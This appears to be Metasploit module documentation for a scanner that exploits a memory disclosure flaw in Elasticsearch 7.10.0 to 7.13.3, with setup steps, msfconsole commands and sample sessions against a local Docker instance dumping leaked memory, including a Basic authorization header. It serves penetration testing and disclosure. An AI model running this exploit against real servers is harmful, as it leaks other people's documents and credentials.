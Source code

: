 ## Vulnerable Application

This module exploits a memory disclosure vulnerability in Elasticsearch
7.10.0 to 7.13.3 (inclusive). A user with the ability to submit arbitrary
queries to Elasticsearch can generate an error message containing previously
used portions of a data buffer.
This buffer could contain sensitive information such as Elasticsearch
documents or authentication details. This vulnerability's output is similar
to heartbleed.

### Docker Install

`docker run -p 9200:9200 -e "discovery.type=single-node" elasticsearch:7.13.2`

This will start a docker instance, however it will most likely on return
back empty memory data, or your own query. Running the
`elasticsearch_enum` module with good or bad credentials will generate
more interesting data.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/elasticsearch_memory_disclosure`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get a dump of memory.

## Actions

### SCAN

This action will dump the memory and print the leaked bytes count. Set `verbose`
to true to view the data. Default

### DUMP

This action will dump the memory and print the leaked bytes count. Set `verbose`
to true to view the data. The output is then stored as loot.

## Options

### LEAK_COUNT

How many times to run the memory dumper. Defaults to `1`

## Scenarios

### Elasticsearch 7.13.2 on Docker

The module is run with action `SCAN`, and `leak_count` set to `2` to have a better chance
of leaking interesting information.

```
msf > use auxiliary/scanner/http/elasticsearch_memory_disclosure
msf auxiliary(scanner/http/elasticsearch_memory_disclosure) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(scanner/http/elasticsearch_memory_disclosure) > set verbose true
verbose => true
msf auxiliary(scanner/http/elasticsearch_memory_disclosure) > set leak_count 2
leak_count => 2
msf auxiliary(scanner/http/elasticsearch_memory_disclosure) > run

[*] Leaking response #1
[*] Leaking response #2
[+] Leaked 2106 bytes
[*] Printable info leaked:
HTTP/1.1 200 OK..rnal Server Error..1:9200..User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.51..Content-Type: application/json..Content-Length: 2....@.: 2....@.........................................................................................................................................................................................................................................................."[truncated 1048076 bytes].HTTP/1.1 200 OK..rnal Server Error..1:9200..User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.51..Content-Type: application/json..Content-Length: 2....@.: 2....@.........................................................................................................................................................................................................................................................."[truncated 1048076 bytes]
..�aT�!...00 Internal Server Error....User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0..Authorization: Basic YWRtaW46MTIzNDU2.........................................................................................х���...00 OK..rnal Server Error..1:9200..User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.51..Content-Type: application/json..Content-Length: 2....@..."[truncated 1048076 bytes]...�aT�!...00 Internal Server Error....User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0..Authorization: Basic YWRtaW46MTIzNDU2.........................................................................................х���...00 OK..rnal Server Error..1:9200..User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.51..Content-Type: application/json..Content-Length: 2....@..."[truncated 1048076 bytes]
[*] Auxiliary module execution completed
```

In this example, we set the action to `DUMP` to store the data as well.

```
msf auxiliary(scanner/http/elasticsearch_memory_disclosure) > set action dump
action => dump
msf auxiliary(scanner/http/elasticsearch_memory_disclosure) > run

[*] Leaking response #1
[*] Leaking response #2
[+] Leaked 2088 bytes
[+] Elasticsearch memory data stored in /root/.msf4/loot/20230825124508_default_127.0.0.1_elasticsearch.me_033879.bin
[*] Printable info leaked:
HTTP/1.1 400 Bad Request..: 127.0.0.1:9200..User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 13.4; rv:109.0) Gecko/20100101 Firefox/114.0..Content-Type: application/json..Content-Length: 2....@................................................................................................................................................................................................................................................................................................................."[truncated 1048076 bytes].HTTP/1.1 400 Bad Request..: 127.0.0.1:9200..User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 13.4; rv:109.0) Gecko/20100101 Firefox/114.0..Content-Type: application/json..Content-Length: 2....@................................................................................................................................................................................................................................................................................................................."[truncated 1048076 bytes].�........l�Kn�0.D.��\�`%�&"Q�H�M�.�.�Pd��p0�O���Q.�B�.R�'j/w.������ڈāq�.�[8.��� ��yC]@j"Ͼ�,�� 0...�.�3�-��<��.H�\#.�:�X�.3.��]P�W�uCG��gG��c�N�.��z��y8.X2���B.�����.|���C.�w�.�s�'O��Z$1@�[���<.��?...��nyone. See https://www.elastic.co/guide/en/elasticsearch/reference/7.13/security-minimal-setup.html to enable security."..content-type: application/json; charset=UTF-8..content-encoding: gzip..: none..Sec-Fetch-Mode: cors..Sec-Fetch-Dest: empty..Accept-Encoding: gzip, deflate, br..Accept"[truncated 1048076 bytes]..�........l�Kn�0.D.��\�`%�&"Q�H�M�.�.�Pd��p0�O���Q.�B�.R�'j/w.������ڈāq�.�[8.��� ��yC]@j"Ͼ�,�� 0...�.�3�-��<��.H�\#.�:�X�.3.��]P�W�uCG��gG��c�N�.��z��y8.X2���B.�����.|���C.�w�.�s�'O��Z$1@�[���<.��?...��nyone. See https://www.elastic.co/guide/en/elasticsearch/reference/7.13/security-minimal-setup.html to enable security."..content-type: application/json; charset=UTF-8..content-encoding: gzip..: none..Sec-Fetch-Mode: cors..Sec-Fetch-Dest: empty..Accept-Encoding: gzip, deflate, br..Accept"[truncated 1048076 bytes]
[*] Auxiliary module execution completed
```

